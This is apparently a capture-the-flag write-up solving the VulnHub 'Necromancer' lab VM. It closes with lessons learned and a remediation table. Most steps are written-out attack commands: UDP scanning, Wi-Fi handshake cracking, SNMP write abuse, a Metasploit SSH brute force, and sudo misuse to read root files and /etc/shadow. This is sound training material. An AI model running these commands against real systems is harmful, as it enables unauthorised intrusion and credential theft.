



# The Necromancer: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.110 (NAT/host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Flags** | 11 flags total |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/the-necromancer-1,154/) |

## Attack Summary

UDP:666 base64 → port knock (opensesame) → web stego (binwalk) → cewl + dirb → GDB binary debug → UDP:31337 (blackmagic) → wifi cap crack (aircrack) → SNMP write unlock (death2all) → SSH brute → sudo /bin/cat → flag11

## Methodology

1. UDP port scanning — TCP yields nothing, UDP:666 is the entry point
2. Base64 decode → MD5 crack for port passphrases
3. Web steganography with binwalk
4. Wordlist generation (cewl) + directory brute force
5. Binary reverse engineering / debugging with GDB
6. SNMP enumeration and write access
7. SSH brute force via Metasploit
8. Sudo misconfiguration → read root flag

---

## Step 1: Host Discovery and Scanning

TCP scan finds nothing useful. Use UDP:

```bash
sudo netdiscover -i eth1
sudo nmap -sU -T4 -p- 192.168.0.110
# Found: UDP/666
```


---

## Step 2: UDP:666 — First Contact

```bash
nc -nvu 192.168.0.110 666
# Sends repeating message; start tcpdump to catch outbound traffic
sudo tcpdump host 192.168.0.110
# Traffic on port 4444
nc -nvlp 4444
# Receives base64-encoded data → decode → Flag 1 + MD5 hash
echo "<base64>" | base64 -d
# Crack MD5: hash → "opensesame"
# Send passphrase back to UDP:666
echo "opensesame" | nc -nvu 192.168.0.110 666
# Hint: check port 80
```


---

## Step 3: Web — Steganography

```bash
# Browse port 80, download the image shown
wget http://192.168.0.110/image.jpg
binwalk image.jpg
# Output: JPEG with embedded ZIP archive
cp image.jpg image.zip
unzip image.zip
cat feathers.txt
# Contains base64 → Flag 3 + directory path hint
```



---

## Step 4: Wordlist + Directory Brute Force

```bash
# Generate wordlist from hint page (mythological objects)
cewl http://<hint_url> -w /tmp/necromancer.txt
dirb http://192.168.0.110/<directory_hint>/ /tmp/necromancer.txt
# Found: /talisman
wget http://192.168.0.110/<directory>/talisman
chmod +x talisman
./talisman
# Prints "Nothing happens." — need GDB
```

---

## Step 5: GDB Binary Debug

```bash
gdb ./talisman
(gdb) info functions
# Lists: wearTalisman, chantToBreakSpell
(gdb) break wearTalisman
(gdb) run
(gdb) jump chantToBreakSpell
# Flag 4 printed + hint: UDP:31337 passphrase MD5 hash → "blackmagic"
```



---

## Step 6: UDP:31337 → Wi-Fi Cap Crack → SNMP Unlock

```bash
echo "blackmagic" | nc -unv 192.168.0.110 31337
# Flag 5 + new web directory
# Web page: hidden link on word "necromancer" → download archive
# Archive contains .cap file
wireshark <file>.cap    # 802.11 WPA handshake
aircrack-ng -w /usr/share/wordlists/rockyou.txt <file>.cap
# Key: "death2all" — also the SNMP community string

# SNMP: unlock the system
snmpwalk -c death2all -v 1 192.168.0.110
snmpset -c death2all -v 1 192.168.0.110 <OID> s "Unlocked"
snmpwalk -c death2all -v 1 192.168.0.110
# Flag 7 + SSH hint, MD5 → "demonslayer" (this is the USERNAME)
```

---

## Step 7: SSH Brute Force

```bash
# Metasploit ssh_login
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.0.110
set USERNAME demonslayer
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
# Password: 12345678
ssh demonslayer@192.168.0.110
```

---

## Step 8: Root Flag via sudo cat

```bash
ls -la
cat flag8.txt    # Hint: UDP:777
nc -u localhost 777    # Trivia game → flags 9 and 10
ls -la           # .smallvile hidden file
sudo -l
# (ALL) NOPASSWD: /bin/cat
sudo /bin/cat /root/flag11.txt
```



---

## Flags

| Flag | Hash / Note |
|------|------------|
| Flag 7 | `flag7{9e5494108d10bbd5f9e7ae52239546c4}` |
| Flag 8 | `flag8{55a6af2ca3fee9f2fef81d20743bda2c}` |
| Flag 9 | `flag9{713587e17e796209d1df4c9c2c2d2966}` |
| Flag 10 | `flag10{8dc6486d2c63cafcdc6efbba2be98ee4}` |
| Flag 11 | `/root/flag11.txt` (read via `sudo /bin/cat`) |

---

## Lessons Learned

1. **UDP-only services**: always include UDP in nmap scans (`-sU`); TCP-only scans miss the entire attack surface
2. **steghide / binwalk**: images in CTFs routinely contain embedded files; check every image
3. **GDB jump to alternate function**: binary challenges that print "nothing happens" often have debug/alternate code paths
4. **SNMP write community**: `snmpset` with write access can change device state; isolate SNMP or use SNMPv3 with auth
5. **sudo /bin/cat**: any file-reading tool in sudoers → reads `/etc/shadow`, private keys, root flags

## Remediation

| Vulnerability | Fix |
|---|---|
| SNMP write community | Disable SNMP or use SNMPv3 with authentication; never use default community strings |
| sudo /bin/cat | Remove from sudoers; if file access is needed, use a dedicated wrapper with path restrictions |
| SSH weak password | Enforce strong passwords; use key-based auth only |
| Steganography as security | Not a security control; encrypt sensitive data properly |
